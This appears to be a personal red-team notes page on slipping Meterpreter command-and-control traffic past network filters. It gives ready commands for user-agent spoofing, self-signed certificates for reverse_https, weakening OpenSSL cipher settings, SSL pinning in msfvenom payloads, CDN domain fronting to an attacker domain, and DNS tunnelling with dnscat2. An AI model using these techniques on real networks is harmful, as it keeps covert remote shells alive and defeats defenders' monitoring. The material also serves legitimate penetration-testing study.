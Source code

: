 ## Network filters

we can set user-agent in meterpreter:
#meterpreter
``` bash
set HttpUserAgent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36"
```

Adding the certificate to the meterpreter/reverse_https
1. Generate self-signed cert with priv key:
#certgen #openssl #bash
``` bash
openssl req -new -x509 -nodes -out cert.crt -keyout priv.key
```
2. Create key and cert in pem format:
``` bash
cat priv.key cert.crt > nasa.pem
```
3. Change the SSL options in /etc/ssl/openssl.cnf
``` bash
# Remove this:
CipherString=DEFAULT@SECLEVEL=2
# Add this:
CipherString=DEFAULT
```
then in multihandler:
#meterpreter 
``` bash
set HandlerSSLCert /home/kali/self_cert/nasa.pem
```

### SSL Pining on the meterpreter beacon

Set the following options when creating a payload to enable the SSL pinning:
#msfvenom 
```bash
StagerVerifySSLCert=true HandlerSSLCert=<path_to_pem>
```

### Domain Squatting with meterpreter

When generating the shellcode (exe in this case) we specify good domain in LHOST e.g. good.com behind the CDN to make the good DNS query, and in the HttpHostHeader we specify our CDN domain (malicous) which proxypass to our bad.com domain.
#msfvenom 
```bash
LHOST=good.com HttpHostHeader=cdn123bad.provider.com
```

### DNS Tunelling

Limited and slow, but since it is allowed everywhere we can use the dnscat2.
We must own the domain and set the NS record for that domain to point to our server. Then every subdomin queries will be forwarded to that name server we control.
#reverseshell #tunelling #dns

https://github.com/iagox86/dnscat2


